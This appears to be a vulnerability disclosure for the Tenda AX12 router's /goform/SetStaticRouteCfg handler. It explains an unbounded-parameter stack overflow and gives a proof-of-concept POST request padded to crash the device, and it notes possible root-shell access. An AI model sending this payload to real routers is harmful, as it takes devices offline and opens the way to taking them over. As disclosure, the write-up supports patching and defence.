




### **Overview**:
Affected Device: Tenda AX12 V1.0
Affected Firmware Version: V22.03.01.46
Impact: Denial of Service (DoS) attack, stack overflow leading to potential root shell access.
Firmware download link: https://www.tenda.com.cn/download/detail-3621.html

### **Vulnerability**:
The vulnerability is located in `/goform/SetStaticRouteCfg` where the request parameter list does not have a length limitation, which can ultimately lead to a stack overflow.
The vulnerable function `sub_43B6BC` is present in the `httpd` file within the `sub_41DE60 function`.

By passing the request parameter list to `sub_43B3C4`, as shown in the figure below:

As we can see, the request parameter `list` is passed to the variable `v3`, and since there is no length restriction on the variable `v3`, the subsequent `sscanf` function separates the value of `v3` using commas as delimiters and assigns them to `v16, v18, v19, v20`. These variables only require a certain length of padding to cause a stack overflow, which can easily lead to a denial of service attack. Furthermore, by constructing a suitable exploit, it is possible to gain shell access. The vulnerability is depicted in the following image:

### **POC**:

~~~
POST /goform/SetStaticRouteCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 773
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

~~~

### **Impact Effect**:

